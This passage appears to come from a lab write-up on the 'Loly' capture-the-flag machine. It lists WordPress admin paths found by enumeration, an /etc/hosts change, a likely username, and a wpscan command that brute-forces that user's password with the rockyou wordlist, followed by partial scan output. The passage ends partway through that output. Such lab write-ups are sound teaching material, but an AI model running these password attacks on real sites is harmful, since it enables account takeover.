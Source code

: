 /wordpress/wp-admin/import.php
/wordpress/wp-admin/revision.php
/wordpress/wp-admin/moderation.php
/wordpress/wp-admin/post-new.php

Files found with a 405 responce:

/wordpress/xmlrpc.php
* * *
* * *

> 192.168.1.16/wordpress - Has not beeen configured correctly 
> - Modify /etc/hosts to: ![383bfdba3206418f0e5a6fab686719dc.png](:/fa9d63163b00405bbd91ef826c1b2ceb)
* * *

> ## <ins>**loly.lc/wordpress**</ins>
![a9bc71cc4a730bdfc75c60a5634c1f5d.png](:/b8c0027a70124667bf3183521c724350)

- Possible user name: **loly**
* * *

> ## <ins>**wpscan**</ins>
> **wpscan --url http://loly.lc/wordpress -e -U loly -P /usr/share/wordlists/rockyou.txt -o wpscan.txt**

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.4
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+]URL: http://loly.lc/wordpress/ [192.168.1.16]
[+]Started: Tue Sep 15 14:33:42 2020

**Interesting Finding(s):**

[+]Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+]XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
